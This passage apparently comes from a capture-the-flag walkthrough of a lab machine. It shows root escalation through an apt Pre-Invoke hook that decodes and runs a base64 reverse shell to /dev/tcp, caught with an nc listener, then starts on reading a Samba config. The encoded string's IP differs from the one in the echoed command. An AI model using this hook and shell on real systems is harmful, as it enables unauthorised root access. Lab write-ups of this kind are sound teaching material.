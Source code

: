     
    
    sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
    

The same thing can be added to a config file:

    
    
    apt::Update::Pre-Invoke {"command";};
    

I’ll create a base64 encoded reverse shell:

    
    
    oxdf@parrot$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' | base64 -w0
    L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg==
    

And add that to a config file:

    
    
    john@writer:/etc/apt/apt.conf.d$ echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTMvNDQzIDA+JjEiCg== | base64 -d | bash"};' > 000-shell
    

I’ll be sure to keep an eye out for the time, as it seems like the cron could
remove my config before it gets used if I add it with more than a minute to go
until the next run.

The next time it runs, I get a shell:

    
    
    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.101 42508
    bash: cannot set terminal process group (3923): Inappropriate ioctl for device
    bash: no job control in this shell
    root@writer:/tmp# 
    

And I can get the flag:

    
    
    root@writer:~# cat root.txt
    740e18db************************
    

## Beyond Root - Intended Foothold

The command injection in the web application was not the intended path to get
a foothold. It’s actually more complicated.

### Samba

I can use the SQL file read to get the Samba config file from
`/etc/samba/smb.conf`. It’s long, but at the bottom it defines a share named
`writer2_project`:

    
    